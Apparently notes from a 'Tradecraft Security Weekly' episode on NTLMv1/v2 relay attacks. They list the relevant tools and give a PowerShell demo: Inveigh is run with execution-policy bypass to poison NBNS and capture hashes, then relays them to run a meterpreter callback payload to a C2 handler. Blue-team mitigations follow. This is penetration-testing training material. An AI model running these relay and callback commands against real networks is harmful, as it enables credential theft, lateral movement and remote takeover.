

Relaying NTLMv1/v2 – Tradecraft Security Weekly #14

Inveigh - https://github.com/Kevin-Robertson/Inveigh
Nmap SMB-Signing Discovery - https://nmap.org/nsedoc/scripts/smb-security-mode.html
byt3bl33der blog post - https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
SANS blog post - https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python
LLMNR & NBT-NS Blog Post - https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning
Responder Multi-Relay - http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html
Impacket SMBRelayx - https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py
Metasploit SMB_Relay Module - https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay
# Quick LLMNR & NBT-NS Overview

- Instead of just obtaining hashes we can relay those hashes to other systems
- Attacker can execute code in the context of the victim user
- No need to crack hashes at this point to gain a foothold
- Can be done from a non-domain system
- SMB Signing must be disabled
- Locate hosts with Nmap or another scanner
# NTLM v1/v2 Relaying Tools
- Python:
	- Responder multi-relay
		- https://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html
	- Impacket's smbrelayx
		- https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py
- Metasploit:
	- exploit/windows/smb/smb_relay
		- https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay
- PowerShell:
	- Inveigh
		- https://github.com/Kevin-Robertson/Inveigh
# Inveigh Demo
Scenario:
access to a win box
trying to get onto another admin winbox

on Winbox we are on
```
C:\ powershell.exe -exec bypass
PS> Import-Module .\Inveigh.ps1
PS> Invoke-Inveigh -ConsoleOutput Y -NBNS Y
```
on target admin winbox trigger the responder for the demo
```
\\pintserver
```
and captures the hash on the Inveigh
```
PS> Stop-Inveigh
PS> cleanmgr.exe
PS> clear
```
RELAY ATTACK:
```
PS> Invoke-Inveigh -HTTP N -NBNS Y -ShowHelp N -StatusOutput N
PS> Invoke-InveighRelay -ConsoleOutput Y -Target ipoftarget -Command 'meterpreter payload created in veil evasion to get callback on our msf multihandler
```
# For the Blue Team
- Enable SMB Signing
- Disable LLMNR & NBT-NS on clients
- Use a script to make NBNS/LLMNR requests for non-existent host names. If one returns it's likely spoofed.


running multi/handler on C2